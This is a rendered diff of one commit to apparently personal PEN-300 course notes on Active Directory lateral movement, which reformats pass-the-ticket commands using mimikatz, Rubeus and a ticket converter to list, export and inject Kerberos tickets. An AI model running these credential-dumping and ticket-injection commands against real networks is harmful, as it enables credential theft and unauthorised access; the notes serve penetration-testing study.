

Before and after one commit to trike33/PEN-300-Code-Snippets, a Markdown page: Active Directory/Lateral Movement.md, 2 parts joined by grey strips. Drawn GitHub-style.

````diff
--- a/Active Directory/Lateral Movement.md
+++ b/Active Directory/Lateral Movement.md
@@ -50,21 +50,21 @@ The pass-the-ticket technique abuses the TGS, which can be exported and injected
 ```
 Listing tickets:
 
-mimikatz # kerberos::list
+1. mimikatz # kerberos::list
 
-C:\> .\Rubeus.exe dump
+2. C:\> .\Rubeus.exe dump
 
 Exporting all tickets(TGTs and TGSs):
 
-mimikatz # sekurlsa::tickets /export
+1. mimikatz # sekurlsa::tickets /export
 
-C:\> [IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<bas64_ticket>")) -> from base64 to .kirbi
+2. C:\> [IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<bas64_ticket>")) -> from base64 to .kirbi
 
 Injecting some ticket into memory:
 
-mimikatz # kerberos::ptt 'C:\ticket.kirbi'
+1. mimikatz # kerberos::ptt 'C:\ticket.kirbi'
 
-C:\> .\Rubeus.exe ptt /ticket:<ticket_kirbi_file>
+2. C:\> .\Rubeus.exe ptt /ticket:<ticket_kirbi_file>
 ```
 
 *When trying to export a usable TGT for our current user, this requieres elevation in the system*
@@ -82,7 +82,7 @@ From .ccache to .kirbi
 ~# python ticket_converter.py trike.ccache trike.kirbi
 
 From .kirbi to .ccache
-~# python ticket_converter.py velociraptor.kirbi velociraptor.ccache
+~# python ticket_converter.py trike.kirbi trike.ccache
 ```
 
 Alternatively you can use this metasploit module [auxiliary/admin/kerberos/ticket_converter](https://docs.metasploit.com/docs/pentesting/active-directory/kerberos/ticket_converter.html).
````
